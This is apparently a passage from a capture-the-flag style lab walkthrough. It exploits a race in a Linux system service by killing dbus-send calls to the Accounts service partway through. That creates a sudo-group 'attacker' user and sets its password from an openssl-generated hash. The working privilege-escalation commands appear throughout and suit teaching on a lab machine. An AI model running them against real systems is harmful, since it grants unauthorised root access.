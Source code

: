 ```php
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/fe8af4395935.png)  

This takes 0.011 seconds, or 11 milliseconds. This number will be slightly different each time you run the command; however, on the provided machine it should always be _around_ this number.

_**Note:** For the first five minutes or so of deployment the machine is still booting things in the background, so don't be alarmed if the time you get is a lot longer to begin with -- just keep running the command periodically until it gives you a time in a similar region to the results above._

We need to kill the command approximately halfway through execution. Five milliseconds usually works fairly well on the provided machine; however, be aware that this is not an exact thing. You may need to change the sleep time, or run the command several times before it works. That said, once you find a time that works, it should work consistently. If you are struggling to get a working time, putting the command inside a bash for loop and quickly running through a range of times tends to work fairly well.  

Let's try this. We need to send the dbus message, then kill it about halfway through:  

```php
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/b1dba51148aa.png)  

To explain the above command, we sent the dbus message in a background job (using the ampersand to background the command). We then told it to sleep for 5 milliseconds (`sleep 0.005s`), then kill the previous process (`$!`). This successfully created the new user, adding them into the sudo group.  
We should note down at this point that the user ID of the new user in this instance is 1000.

Now all we need to do is give the user a password and we should be good to go!

---

We need a password hash here, so let's generate a Sha512Crypt hash for our chosen password (`Expl01ted`):  

```php
openssl passwd -6 Expl01ted
```

![](https://assets.muirlandoracle.co.uk/thm/rooms/polkit/1316626c8114.png)  

Using openssl, we generate a password of type 6 (SHA512-crypt) and our plaintext password (`Expl01ted`).

Now let's finish this! 5 milliseconds worked last time, so it should work here too:  

```php
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
```
